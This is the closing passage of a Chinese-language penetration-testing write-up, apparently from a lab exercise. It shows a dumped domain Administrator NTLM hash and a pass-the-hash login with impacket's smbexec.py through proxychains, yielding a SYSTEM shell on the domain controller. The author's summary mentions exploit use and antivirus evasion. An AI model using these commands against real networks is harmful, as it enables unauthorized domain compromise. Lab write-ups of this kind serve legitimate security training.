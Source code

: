 得到了域控的 hash：

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:669a3273144a82b942377c1001ed03a3:::
```

使用administrator的hash横向连接，利用smbexec.py 登录域控

```bash
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# proxychains python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:669a3273144a82b942377c1001ed03a3 dc$/administrator@10.10.10.139               
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Dynamic chain  ...  127.0.0.1:53301  ...  10.10.10.139:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

結束

# 总结

总体不难，没有超纲的，找exp然后利用

收获是，对渗透测试的过程有了一个整体把握

对免杀的收获还是有的






